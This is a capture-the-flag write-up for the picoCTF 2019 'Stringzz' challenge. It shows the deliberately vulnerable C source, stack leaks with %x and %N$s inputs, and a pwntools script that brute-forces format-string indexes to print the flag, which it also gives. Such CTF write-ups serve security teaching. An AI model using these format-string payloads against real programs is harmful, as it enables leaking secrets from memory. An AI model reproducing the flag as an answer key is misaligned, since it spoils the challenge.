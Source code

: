 # PicoCTF19 Stringzz

## Challenge

Use a format string to pwn this [program](https://2019shell1.picoctf.com/static/f636d94e58ef1e11c1951b986a3c3754/vuln) and get a flag. Its also found in /problems/stringzz_2 on the shell server. [Source](https://2019shell1.picoctf.com/static/f636d94e58ef1e11c1951b986a3c3754/vuln.c).

## Hints

[http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)

## Solution

Let's view the directory

```bash
samson@pico-2019-shell1:/problems/stringzz_2$ ls -al
total 92
drwxr-xr-x   2 root       root        4096 Sep 28 21:45 .
drwxr-x--x 684 root       root       69632 Oct 10 18:02 ..
-r--r-----   1 hacksports stringzz_2    31 Sep 28 21:45 flag.txt
-rwxr-sr-x   1 hacksports stringzz_2  7660 Sep 28 21:45 vuln
-rw-rw-r--   1 hacksports hacksports   789 Sep 28 21:45 vuln.c
samson@pico-2019-shell1:/problems/stringzz_2$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in) {
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in) {
  puts("your input ");
  printMessage3(in);
}
void printMessage1(char *in) {
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv) {
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);
}
```

After reading the paper recommended from the hints, it looks like we'll be expoiting the `printf()` vulnerability.
Let's determine if this program is vulnerable to the `printf()` vulnerability.

```bash
samson@pico-2019-shell1:/problems/stringzz_2$ ./vuln
input whatever string you want; then it will be printed back:

%x %x %x %x %x
Now 
your input 
will be printed:

a f7d8a36b 565da6f9 f7ef8000 565dbfb4
```

It is vulnerable. Let's try printing 100 items off the stack and grep for the flag.

```bash
samson@pico-2019-shell1:/problems/stringzz_2$  echo $(python -c "print('%x '*100)") | ./vuln
input whatever string you want; then it will be printed back:

Now 
your input 
will be printed:

a f7e1836b 565bf6f9 f7f86000 565c0fb4 ffe72f38 565bf755 56889600 565bf995 f7e1836b 565bf731 f7f86000 565c0fb4 ffe72f58 565bf78e 56889600 565bf993 f7e1681b 565bf76a f7f86000 565c0fb4 ffe72fa8 565bf84d 56889600 80 568897d0 565bf7ae f7f86000 f7f86000 0 ffe73054 f7f863fc 565c0fb4 ffe7305c 12e 56889600 56889740 568897d0 b6b68c00 ffe72fc0 0 0 f7dc9e81 f7f86000 f7f86000 0 f7dc9e81 1 ffe73054 ffe7305c ffe72fe4 1 ffe73054 f7f86000 f7fad75a ffe73050 0 f7f86000 0 0 53fd859e 249e838e 0 0 0 40 f7fc5024 0 0 f7fad869 565c0fb4 1 565bf5b0 0 565bf5e1 565bf797 1 ffe73054 565bf890 565bf8f0 f7fad9b0 ffe7304c f7fc5940 1 ffe747ca 0 ffe747d1 ffe74dbd ffe74df0 ffe74e12 ffe74e1f ffe74e33 ffe74e3f ffe74e79 ffe74e8b ffe74ead ffe74eee ffe74f01 ffe74f17 ffe74f2b 
```

Okay, whatever it is, we'll need to print it as a string. We can't simply use `%s` though. See below:

```bash
samson@pico-2019-shell1:/problems/stringzz_2$ echo $(python -c "print('%s')") | ./vuln
input whatever string you want; then it will be printed back:

Now 
your input 
will be printed:

Segmentation fault (core dumped)
```

This works because `%x` prints values off the stack

The exploit we want to take advantage of is the `Format String Direct Access` explained in this [paper](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf).

`%4$x` - prints the 4th parameter on the stack in hex, so `%4$s` should print it in ASCII.

```bash
samson@pico-2019-shell1:/problems/stringzz_2$ ./vuln
input whatever string you want; then it will be printed back:

%4$x   
Now 
your input 
will be printed:

f7fa8000
samson@pico-2019-shell1:/problems/stringzz_2$ ./vuln
input whatever string you want; then it will be printed back:

%4$s
Now 
your input 
will be printed:

lM
```

```bash
samson@pico-2019-shell1:/problems/stringzz_2$ python -c "print('%5$s')" | ./vuln

input whatever string you want; then it will be printed back:

Now 
your input 
will be printed:

%5
```

Doesn't seem to work, so let's brute force it:

```python
#!/usr/bin/env python
from __future__ import print_function
from pwn import *

index = 1
while True:
    print("Attempting index: {}".format(index))
    p = process('./vuln', cwd='/problems/stringzz_2')
    p.recvuntil('input whatever string you want; then it will be printed back:')
    p.sendline("%{}$s".format(index))
    res = p.recvall()
    if "picoCTF" in res:
        print("Found flag: {}".format(res))
        break
    index=index+1
```

Amazingly, it returns with an answer.

## Flag

`picoCTF{str1nG_CH3353_166b95b4}`

